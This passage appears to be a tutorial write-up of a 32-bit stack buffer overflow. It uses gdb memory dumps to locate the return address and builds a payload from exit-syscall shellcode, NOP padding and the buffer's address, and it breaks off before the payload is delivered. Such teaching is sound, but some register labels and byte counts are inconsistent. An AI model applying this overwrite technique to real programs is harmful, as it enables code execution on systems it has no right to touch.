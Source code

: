 The input for this was `AAAABBBBCCCCDDDDAAAABBBBCCCCDDDD` as can be seen, the bytes got replaced up until `0xffffcd37`.
The contents of the `buffer` and the succeeding pointers can be checked by using the command `x/16wx`:

```
(gdb) x/16wx &buffer
0xffffcd18:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd28:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd38:	0xffffcd00	0xffffcd50	0xf7e1fe2c	0x56556192
0xffffcd48:	0x00000001	0xffffcde4	0xf7e1fe2c	0xffffcdec
```

The first 8 bytes (`0x41414141	0x42424242`) are the buffer's contents.
The next 4 bytes (`0x43434343`) is the base pointer.
The next 4 bytes (`0x44444444`) is the return address which will be modified to point to the address of the `buffer` (at `0xffffcd18`).

### Exploitation

We can use any means necessary to send raw bytes to the input, but to make things simpler, we will be using `echo`.
Notice that the structure of the memory address is as follows:

```
[ 0x-------- 0x-------- ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The payload `\x31\xc0\x40\x89\xc3\xcd\x80` can be stored on the `buffer`'s memory space:

```
[ 0x8940c031 0x--80cdc3 ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

Notice that the raw bytes are stored in little-endian system.

Since the size of the payload is only 7 bytes long, NOP (no operation) instruction must be appended in order for the return address (ESP) to be modified.
The total size of the buffer and the EBP is 12 bytes.
Thus, there are 5 bytes worth of NOPs to be padded.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The equivalent shellcode is now `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90`.

Next is to add the memory address of the `buffer`.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0xffffcd18 ] ...
          buffer                ebp           esp
```

Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
We can store the shellcode to our `egg`:
